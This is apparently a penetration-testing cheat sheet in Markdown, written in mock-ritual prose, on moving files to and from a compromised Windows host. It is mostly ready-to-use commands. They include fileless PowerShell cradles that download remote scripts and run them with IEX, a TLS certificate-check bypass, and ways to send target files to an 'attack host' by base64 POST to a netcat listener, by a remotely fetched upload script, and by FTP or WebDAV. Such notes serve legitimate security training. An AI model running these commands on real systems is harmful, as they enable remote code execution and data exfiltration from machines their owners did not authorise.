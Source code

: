 # 📁 File Transfers

In the profane rites of assessment, the movement of relics—scripts, payloads, and binaries—is both necessary and perilous. This chapter reveals methods for casting files across dimensions, utilizing primitive yet persistent protocols shared among ancient systems both Windows and Linux.

> *"No summoning may begin until the runes are in place."*

---

<details>
  <summary><strong>🪟 Windows</strong></summary>
  <details>  
    <summary><strong>📥 Downloads</strong></summary>
      <details>
        <summary><strong>PowerShell Downloads</strong></summary>  
        <details> 
        <summary><strong>PowerShell DownloadFile Method</strong></summary>
          
  Sync  
  ```powershell
  (New-Object Net.WebClient).DownloadFile('<FILE URL>','<OUTPUT FILE>')
  ```
  Async  
  ```powershell
  (New-Object Net.WebClient).DownloadFileAsync('<FILE URL>','<OUTPUT FILE>')
  ```
          
  </details>

  <details>
    <summary><strong>PowerShell DownloadString - Fileless Method</strong></summary>

  Default  
  ```powershell
  IEX (New-Object Net.WebClient).DownloadString('<FILE URL>')
  ```

  Pipeline input  
  ```powershell
  (New-Object Net.WebClient).DownloadString('<FILE URL>') | IEX
  ```
  </details>

  <details>
    <summary><strong>PowerShell Invoke-WebRequest</strong></summary>

  Default  
  ```powershell
  Invoke-WebRequest <FILE URL> -OutFile <OUTPUT FILE>
  ```

  ByPass Internet Explorer Error  
  ```powershell
  Invoke-WebRequest <FILE URL> -UseBasicParsing | IEX
  ```

  ByPass SSL/TLS Error  
  ```powershell
  [System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}
  # Command to download the file
  ```
  </details>
  </details>

  <details>
    <summary><strong>SMB Downloads</strong></summary>

  **Default**
  
  Create the SMB Server in Linux
  ```bash
  sudo impacket-smbserver share -smb2support /tmp/smbshare
  ```
  Download using CMD in Windows
  ```cmd
  copy \\<IP>\share\<FILE>
  ```
  
  **Using credentialts**

  Create the SMB Server in Linux
  ```bash
  sudo impacket-smbserver share -smb2support /tmp/smbshare -user <USER> -password <PASSWORD>
  ```
  Mount the SMB Server in Linux
  ```cmd
  net use n: \\<IP>\share /user:<USER> <PASSWORD>
  copy n:\<FILE>
  ```

  </details>

<details>
    <summary><strong>FTP Downloads</strong></summary>  
    
  **Upload file**  
  
  Setting up a Python3 FTP Server in Linux
  ```bash
  sudo pip3 install pyftpdlib
  sudo python3 -m pyftpdlib --port 21
  ```

  **Option 1: Download file using Powershell**
  ```powershell
  (New-Object Net.WebClient).DownloadFile('ftp://<IP>/<FILE>', 'C:\Users\Public\<OUTPUT FILE>')
  ```

  **Option 2: Download file using CMD**  
  
  Create a Command File for the FTP Client and Download the Target File
  ```cmd
  echo open <IP> > ftpcommand.txt
  echo USER anonymous >> ftpcommand.txt
  echo binary >> ftpcommand.txt
  echo GET <FILE> >> ftpcommand.txt
  echo bye >> ftpcommand.txt
  ftp -v -n -s:ftpcommand.txt
  ```
  Once in FTP...
  ```cmd
  open <IP>
  USER anonymous
  GET <FILE>
  bye
  ```
  Back in CMD...
  ```cmd
  more <FILE>
  ```
---
  
  </details>
  </details>
  <details>  
    <summary><strong>📥 Uploads</strong></summary>  
    <details>  
  <summary><strong>PowerShell Uploads</strong></summary>  
  <details>  
  <summary><strong>PowerShell Base64 Encode & Decode</strong></summary>  
    
  1. Encode File Using PowerShell 
  ```powershell
  [Convert]::ToBase64String((Get-Content -path "<FILE PATH>" -Encoding byte))
  Get-FileHash "<FILE PATH>" -Algorithm MD5 | select Hash
```
We copy this content and paste it into our attack host, use the base64 command to decode it, and use the md5sum application to confirm the transfer happened correctly.  

  2. Decode Base64 String in Linux
  ```bash
  echo <BASE64 STRING> | base64 -d > <FILE>
  md5sum <FILE>
  ```
  </details>
  <details>  
  <summary><strong>PowerShell Web Uploads</strong></summary>  
    
  1. Installing a Configured WebServer with Upload in Linux
  ```bash
  pip3 install uploadserver
  python3 -m uploadserver
  ```
  2. PowerShell Script to Upload a File to Python Upload Server
  ```powershell
  IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')
Invoke-FileUpload -Uri http://<IP>:<PORT>/upload -File <FILE PATH>
  ```

  </details>
  <details>  
  <summary><strong>PowerShell Base64 Web Upload</strong></summary>  
    
  1. We use Netcat to listen in on a port we specify and send the file as a POST request.
  ```bash
  nc -lvnp <PORT>
  ```
  2. PowerShell Script to Upload a File to Python Upload Server
  ```powershell
  $b64 = [System.convert]::ToBase64String((Get-Content -Path '<FILE PATH>' -Encoding Byte))
  Invoke-WebRequest -Uri http://<IP>:<PORT>/ -Method POST -Body $b64
  ```
  3. We copy the output and use the base64 decode function to convert the base64 string into a file.
  ```bash
  echo <BASE64 FILE> | base64 -d -w 0 > <FILE>
  ```
  </details>
  </details>
  <details> 
  <summary><strong>SMB Uploads</strong></summary>  

  1. Installing WebDav Python modules in Linux
  ```bash
  sudo pip3 install wsgidav cheroot
  sudo wsgidav --host=0.0.0.0 --port=<PORT> --root=/tmp --auth=anonymous
  ```
  2. Uploading Files using SMB in Windows
  ```cmd
  # DavWWWRoot is a special keyword recognized by the Windows Shell. No such folder exists on your WebDAV server.
  dir \\192.168.49.128\DavWWWRoot
  copy <FILE PATH> \\<IP>\DavWWWRoot\

# You can avoid using this keyword if you specify a folder that exists on your server when connecting to the server. For example: \<IP>\sharefolder
  copy <FILE PATH> \\<IP>\sharefolder\
  ```
If there are no SMB (TCP/445) restrictions, you can use impacket-smbserver the same way we set it up for download operations.
  </details>
  <details> 
  <summary><strong>FTP Uploads</strong></summary>  

  **1. Start our FTP Server in Linux**
  ```bash
  sudo python3 -m pyftpdlib --port 21 --write
  ```
  **2. Upload the file in Windows**

  Option 1: Upload file using Powershell
  ```cmd
  (New-Object Net.WebClient).UploadFile('ftp://<IP>/ftp-hosts', '<FILE PATH>')
  ```
  Option 2: Create a Command File for the FTP Client to Upload a File
  Create a Command File for the FTP Client and Download the Target File
  ```cmd
  echo open <IP> > ftpcommand.txt
  echo USER anonymous >> ftpcommand.txt
  echo binary >> ftpcommand.txt
  echo PUT <FILE PATH> >> ftpcommand.txt
  echo bye >> ftpcommand.txt
  ftp -v -n -s:ftpcommand.txt
  ```
  Once in FTP...
  ```cmd
  USER anonymous
  PUT <FILE PATH>
  bye
  ```
  </details>
  </details>
</details>

---

<details>
  <summary><strong>🐧 Linux</strong></summary>
</details>

---
